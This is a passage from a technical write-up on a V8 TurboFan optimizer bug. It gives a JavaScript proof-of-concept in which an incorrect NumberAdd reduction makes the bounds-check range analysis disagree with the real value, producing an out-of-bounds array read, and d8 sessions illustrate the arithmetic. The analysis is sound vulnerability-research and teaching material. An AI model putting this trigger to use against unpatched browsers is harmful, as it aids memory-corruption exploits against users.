 Let's check this by having yet another look at the sea of nodes!

First consider the following code.

```javascript
let opt_me = (x) => {
  let arr = new Array(1.1,1.2,1.3,1.4);
  arr2 = new Array(42.1,42.0,42.0);
  let y = (x == "foo") ? 4503599627370495 : 4503599627370493;
  let z = 2 + y + y ; // maximum value : 2 + 4503599627370495 * 2 = 9007199254740992
  z = z + 1 + 1; // 9007199254740992 + 1 + 1 = 9007199254740992 + 1 = 9007199254740992
  // replaced by 9007199254740992+2=9007199254740994 because of the incorrect reduction
  z = z - (4503599627370495*2); // max = 2 vs actual max = 4
  return arr[z];
}

opt_me("");
%OptimizeFunctionOnNextCall(opt_me);
let res = opt_me("foo");
print(res);
```

We do get a graph that looks exactly like the problematic drawing we showed before. Instead of getting two `NumberAdd(x,1)`, we get only one with `NumberAdd(x,2)`, which is not equivalent.

![vuln_numberadd](/images/swimming-in-a-sea-of-nodes/vuln_numberadd.png)

The maximum value of `z` will be the following : 

```text
d8> var x = 9007199254740992
d8> x = x + 2 // because of the buggy reducer!
9007199254740994
d8> x = x - (4503599627370495*2)
4
```

However, the index range used when visiting `CheckBounds` during simplified lowering will be computed as follows : 

```text
d8> var x = 9007199254740992
d8> x = x  + 1
9007199254740992
d8> x = x  + 1
9007199254740992
d8> x = x - (4503599627370495*2)
2
```
